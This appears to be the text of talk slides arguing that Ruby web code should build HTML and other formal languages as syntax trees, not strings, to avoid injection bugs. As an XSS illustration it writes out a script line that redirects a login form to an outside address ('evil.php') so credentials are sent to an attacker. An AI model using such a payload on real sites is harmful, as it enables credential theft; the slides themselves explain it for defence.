




tl;dr (in Haiku)
For formal language
Avoid plain strings at all cost
Use data structures
Language
langue, taal, sprache, 語言


A platypus is carrying a chicken in the forest

Magic of language
- Listener reconstructs abstract representation
- Identical "tree" is shared between speakers
- Each derive meaning from this representation
Formal Language
a formal language is
a set of strings of symbols
governed by strict rules
These rules form the grammar
of the language, they specify
how to generate valid strings
alphabet = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9,
+, *, (, ), =}
<equation> ::= <expression> = <expression>
<expression> ::= <number> | <sum> |
<product> | ( <expression> )
<number> ::= <digit> | <digit> <number>
<digit> ::= 0 | 1 | 2 | 3 | 4 |
5 | 6 | 7 | 8 | 9
<sum> ::= <expression> + <expression>
<product> ::= <expression> * <expression>
well-formed :
5 = 3 + 2
4 * 4 = 10 + 6
10 + 20 = ( 3 + 5 ) * 7
not well-formed :
5 = + 5
10 = 15 - 5
3 * 5 + 7
The meaning of a sentence
corresponds with
its syntax tree
Language is everywhere
- Programming languages
- Markup & styling languages
- Data languages
- Network protocols

Your application either
consumes or generates
these languages
In either case it should
use syntax trees
to do so
Why ?
XSS
Cross site scripting
XSS
Code like this
"<div>#{ @post.body }</div>"
Will lead to malicious injection
document.getElementById('login_form').
action="http://208.246.24.14/evil.php"
session hijacking
attacker can surf the site with user credentials
Escape!
The common wisdom is to "escape" the inserted value
<div>#{ escape_html(@post.body) }</div>
Now the code is harmless
<div>
<script>document.getElementById('login_form').action=http://208.246.24.14/evil.php</script>
</div>
XSS
Is a more common
vulnerability than
buffer overflows
[CVE-2013-1857] XSS Vulnerability
in thesanitizehelper of Ruby on Rails
— @tenderlove on rails-security-ann
Given all the fun we've had with security issues
— Rails 4 beta announcement
why is it so hard?
What side of the escape are we on?

Steps to reproduce
escape_html(
escape_html(
'ó'.force_encoding('ISO-8859-1')
.encode('UTF-8')
.sub('Ã', 'ã')
.sub('³','³')))
Manual escaping? hard
Let's automate!
# using HTML::SafeBuffer
<div><%= @post.body %></div>
And it just works
We've turned the problem around
Whitelist instead of blacklist
def helper
"<p> haikus are pretty <p>".html_safe
end
We're still manually deciding what (not) to escape
The problem
Semantics of string are twofold
- a string
- a textual representation of HTML
this is not a new concept
we already do this for SQL
@users = User.where(name: params[:query])
def helper
"<p> haikus are pretty <p>".html_safe
end
HTML
Language, a set of strings
Browsers accept every string
Is this a language?
Postel's principle
Be conservative in what you send
be liberal in what you accept
Be conservative in what you send
be liberal in what you accept
HTML "parsers" are rewriting engines
To stay safe we should stay strict
Let someone else handle this hairy mess
Why? (cont.)
in case security
is not enough for you
higher level of abstraction
is more expressive
and more productive
How?
Shopping list
- A solid data type for syntax trees
- quality parsers/generators
- problem domain specific APIs to deal with 1.
Apples and snakes architecture

Keep the snakes out of the app
parse/generate at the app boundary
Inside the app, only apples
Building trees
Constructing literals
The data structure must be
composable and
easy to reason about
Objects
@doc = Nokogiri::HTML::Document.new
@html = Nokogiri::XML::Element.new('html', @doc)
@doc << @html
@doc.to_html
- tedious
- libxml2 means only HTML 4.01
- but : correct
- kind of composable
Builder syntax
HTML::Builder.new do
html do
body do
p 'hello, world'
end
end
end
- implementations vary
- need to return a Node/Tree, not a string
- what is
self?
Templating
%div
.big
= "Hello RuLu"
- HAML isn't Apples and Snakes
- but it could be
- disallow inserting HTML strings
- recognize Node/Tree types
S-expressions
('p ('em "hello, world"))
[:p, [:em, "hello, world"]]
- simple
- lightweight
- easy to program / reason
Now you can actually program your HTML
class MyController
def index
page = SignupPage.new
if request.post?
page.rewrite(PopulateFormFields.new(params))
end
render Layout.new(page)
end
end
Hexp
Demo
https://github.com/plexus/hexp
In summary
Don't serialize by hand
Don't reinvent the wheel (badly)
mixing s11n with logic violates SRP
Let a library do the serialization for you
Aim high level
You care about semantics
the closest representation
is the syntax tree
More expressive power
Data structures are programmable
they make your code
more powerful and expressive
Oh and BTW
injection attacks
Thank you!
References
Blog posts
- Safe String Theory for the web by Steven Wittens
- Structurally Fixing Injection Bugs by Peter Bex
- Working with HTML in Haskell by Aditya Bhargava
- A type-based solution to the “strings problem”: a fitting end to XSS and SQL-injection holes? by Tom Moertel
- The Devil in Plain Text by Arne Brasseur
Books
- Speaking by Willem J.M. Levelt
- An Introduction to Formal Languages and Automata by Peter Linz
Security
- Langsec
- The Science of Insecurity by Meredith L. Patterson
- XSS Filter Evasion Cheat Sheet